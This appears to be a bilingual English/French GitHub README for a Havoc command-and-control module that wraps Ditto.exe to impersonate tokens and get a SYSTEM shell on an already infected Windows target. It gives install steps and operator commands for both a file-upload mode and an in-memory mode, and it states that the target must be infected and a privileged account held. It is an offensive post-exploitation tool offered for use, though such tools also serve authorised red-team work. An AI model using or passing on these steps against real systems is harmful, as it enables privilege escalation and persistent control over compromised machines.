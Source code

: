 # Havoc_impersonate

**language**
1. [EN](#en)
2. [FR](#fr)

## EN

1. [Description](#description)
2. [Installation](#installation)
3. [Usage-guide](#usage-guide)
    1. [Prerequisites](#prerequisites)
    2. [type-upload](#upload)
        - [set-Executable-local-file](#step-1)
        - [use-module](#step-2)
    3. [type-memory](#in-memory)
        - [set-Executable-local-file](#step-1-1)
        - [use-module](#step-2-1)


### Description

The Havoc_impersonate module directly integrates impersonation functionality into Havoc.

This script utilizes three binary files. Two of these files are copies of objects from the NoConsoolation module. The third file is Ditto.exe, which performs the impersonation. We thank @LeDocteurDesBits (https://github.com/LeDocteurDesBits/Ditto) for his repository.

This module allows uploading Ditto.exe (or another file) to the target machine or executing the executable directly in memory.

### Installation

1. Install Python dependencies:
```bash
pip install argparse 
```

2. Clone the repository:
```bash
git clone https://github.com/MaldExE/Havoc_impersonnate.git
```

After cloning, open your Havoc client.

3. Click on the "Script" tab and open the script manager window.

![alt text](img/image1.png)

4. Click "Load Script", choose the impersonnate.py file, and open it.

![alt text](img/image2.png)
![alt text](img/image3.png)

A line will appear in the script manager tab, indicating that the script has been loaded into Havoc.

### Usage Guide
#### Prerequisites

You must have infected your target and have a privileged account before using this module.

![alt text](img/image.png)

#### Upload
##### Step 1

This command is used to set the local file to be uploaded to your target. The uploaded file take your id session havoc to name it.

```
Ditto-upload SetExecutableFile ~/Documents/malware/havoc_module/Havoc_impersonnate/Ditto.exe
```
![alt text](img/image4.png)

##### Step 2

**To obtain a system shell:**

```
Ditto-upload DemonAsSystem C:\Users\arthur\Desktop\tmp\Hello.exe
```
![alt text](img/image5.png)

**To execute a custom command for Ditto or other executble:**
!!! Warning !!!
the option -h or --help was interpreted by havoc and craching my module

```
Ditto-upload Exec help
```
![alt text](image.png)

#### In Memory
##### Step 1

```
Ditto-Memory SetExecutableFile /home/arthur/Documents/malware/havoc_module/Havoc_impersonnate/Ditto.exe
```

##### Step 2

**To obtain a system shell:**

```
Ditto-Memory DemonAsSystem C:\Users\arthur\Desktop\tmp\Hello.exe
```


**To execute a custom command for Ditto:**
!!! Warning !!!
the option -h or --help was interprete by havoc and craching my module

```
Ditto-Memory Exec help
```


## FR

1. [Description](#description-1)
2. [Installation](#installation-1)
3. [guide-utilisation](#guide-dutilisation)
    1. [préréquis](#prérequis)
    2. [Mode-upload](#upload-1)
        - [Définir-Executable-locale](#étape-1)
        - [utilisation-du-module](#étape-2)
    3. [Mode-en-mêmoire](#en-mémoire)
        - [Définir-Executable-locale](#étape-1-1)
        - [utilisation-du-module](#étape-2-1)

### Description

Le module Havoc_impersonnate intègre directement la fonctionnalité d'usurpation d'identité dans Havoc.

Le script utilise trois fichiers binaires. Deux de ces fichiers sont des copies d'objets provenant du module NoConsoolation. Le troisième fichier est Ditto.exe, qui effectue l'usurpation d'identité. Nous remercions @LeDocteurDesBits (https://github.com/LeDocteurDesBits/Ditto) pour son dépôt.

Ce module permet de télécharger Ditto.exe (ou un autre fichier) sur la machine cible ou d'exécuter directement l'exécutable en mémoire.

### Installation

1. Installez les dépendances Python :
```bash
pip install argparse 
```

2. Clonez le dépôt :
```bash
git clone https://github.com/MaldExE/Havoc_impersonnate.git
```

Après le clonage, ouvrez votre client Havoc.

3. Cliquez sur l'onglet "Script" et ouvrez la fenêtre du gestionnaire de scripts.

![alt text](img/image1.png)

4. Cliquez sur "Load Script", choisissez le fichier impersonnate.py et ouvrez-le.

![alt text](img/image2.png)
![alt text](img/image3.png)

Une ligne apparaîtra dans l'onglet du gestionnaire de scripts, indiquant que le script a été chargé dans Havoc.

### Guide d'utilisation
#### Prérequis

Vous devez avoir infecté votre cible et disposer d'un compte privilégié avant d'utiliser ce module.

![alt text](img/image.png)

#### Upload
##### Étape 1

Cette commande est utilisée pour définir le fichier local à télécharger sur votre cible. Le fichier uploader prendra le nom de votre session Havoc.

```
Ditto-upload SetExecutableFile ~/Documents/malware/havoc_module/Havoc_impersonnate/Ditto.exe
```
![alt text](img/image4.png)

##### Étape 2

**Pour obtenir un shell système :**
```
Ditto-upload DemonAsSystem C:\Users\arthur\Desktop\tmp\Hello.exe
```
![alt text](image.png)

**Pour exécuter une commande personnalisée pour Ditto :**
```
Ditto-upload Exec help
```
![alt text](image.png)

#### En mémoire
##### Étape 1

Cette commande est utilisée pour définir le fichier local à télécharger sur votre cible. L'upload nécessite l'ID de votre session.

```
Ditto-Memory SetExecutableFile /home/arthur/Documents/malware/havoc_module/Havoc_impersonnate/Ditto.exe
```

##### Étape 2

Pour obtenir un shell système :
```
Ditto-Memory DemonAsSystem C:\Users\arthur\Desktop\tmp\Hello.exe
```


Pour exécuter une commande personnalisée pour Ditto :
```
Ditto-Memory Exec help
```